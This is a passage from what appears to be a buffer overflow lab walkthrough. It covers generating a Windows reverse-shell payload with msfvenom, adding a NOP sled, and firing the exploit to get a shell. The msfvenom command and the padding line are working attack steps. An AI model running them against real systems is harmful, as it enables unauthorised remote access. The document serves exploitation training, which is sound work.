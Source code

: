 ## Generate Payload

Run the following msfvenom command on Kali, using your Kali VPN IP as the LHOST and updating the -b option with all the badchars you identified (including \x00):

`msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=53 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f py`

Copy the generated C code strings and integrate them into your exploit.py script payload variable using the following notation:

![Payload](/assets/Bof1/payload2.png)

## Prepend NOPs

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

`padding = "\x90" * 16`

![NOP](/assets/Bof1/nops.png)

## Exploit!

With the correct prefix, offset, return address, padding, and payload set, you can now exploit the buffer overflow to get a reverse shell.
